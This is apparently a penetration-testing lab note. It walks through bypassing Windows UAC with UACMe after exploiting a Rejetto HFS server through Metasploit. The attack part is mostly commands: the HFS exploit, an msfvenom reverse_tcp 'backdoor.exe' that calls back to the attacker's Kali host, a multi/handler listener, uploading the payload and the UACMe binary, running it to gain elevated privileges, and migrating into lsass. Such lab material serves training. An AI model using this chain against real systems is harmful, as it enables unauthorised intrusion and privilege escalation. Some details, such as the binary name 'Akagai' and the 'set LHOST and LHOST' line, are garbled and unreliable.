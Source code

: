 ```yaml
---
description: User account control
---
```


# 2 - Bypassing UAC with UACme

### **UAC (User Account Control)**

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group.
* A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
* Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### **Bypassing UAC**

* **In order to successfully bypass UAC, we will need to have access to a user account that is part of the local administrator group on the Windows target system.**
* UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
* UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
* There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### **Bypassing UAC With UACMe**

* UACMe is an open source, robust privilege escalation tool developed by @hfiref0x. It can be used to bypass Windows UAC by leveraging various techniques.
  * GitHub: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
* Allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
* The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

###

### **Practical Demonstration**

#### Gaining  a meterpreter session on the victim OS using Metasploit.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we are leveraging the vuln from the victim web server running HFS http file server by rejetto, v2.3 .
# service postgresql start && msfconsole
setg RHOSTS $ip
search rejetto
use exploit/windows/http/rejetto_hfs_exec
# it sets the default 32bit payload, which is fine in this case.
options
set LHOST and LHOST  # everything is set by default in the lab.
# if the http file server was running on a subdirectory on the webserver we can specify it in the "set TARGETURL", but in this case it runs in the root directory.
exploit
# we get a meterpreter session.
```
{% endcode %}

#### Step 1

Perform basic enumeration and make sure that the user you're currently logged with is part of the administrator local group.

In our meterpreter session

{% code overflow="wrap" lineNumbers="true" %}
```bash
sysinfo  # returns system information.
# we can see we have a 32bit "x86/window" meterpreter session.
# we can migrate to a 64bit process, lets use the explorer process.
pgrep explorer # searches for the process id for the explorer process.
migrate 2448
# our session is now a 64bit session.
getuid  # Return username currently logged.
getprivs # Returns privileges of the current user.
# lets open a shell session to verify the user is part of the local administrator group.
shell  #Open a shell on the target system.
net user  # Returns the list of users on the system.
net localgroup administrators #Returns the list of users part of the administrator local group.

```
{% endcode %}

#### Step 2

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

Generate a payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali_ip LPORT=1234 -f exe > backdoor.exe`&#x20;

#### Step 3

Configure listener for the payload previously generated.

```bash
# we use the metasploit multi/hanadler module.
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $kali_ip
set LPORT 1234
run
```

#### Step 4

Transfer the payload and Akagai.exe to a Temp directory.

`upload backdoor.exe` - upload the payload to the target.

`upload /Akagai64.exe` - upload the Akagai binary.

We are going to be using the "Akagai" binary file to run our backdoor.exe payload in order to bypass UAC.

> .\Akagai64.exe \<keyNumber> \<pathToPayload>

We go back o the cmd prompt shell session `shell` .

`.\Akagai64.exe 23 C:\Temp\backdoor.exe` - Bypass UAC with Akagai.exe and get elevated privileges with same user.

We receive an elevated Meterpreter session on our multi/handler listener.

```bash
# in the elevated meterpreter session, we can verify our priv now.
sysinfo
getuid
getprivs  # we have more privileges now.
# but our session is 32bit (x86/window), we can migrate to a 64bit process or NT AUTHORITY process..
# lets migrate to the "lsas" process, you can select any one.
migrate 688  # we get a 64bit meterpreter session.
sysinfo
getuid # to verify.
```

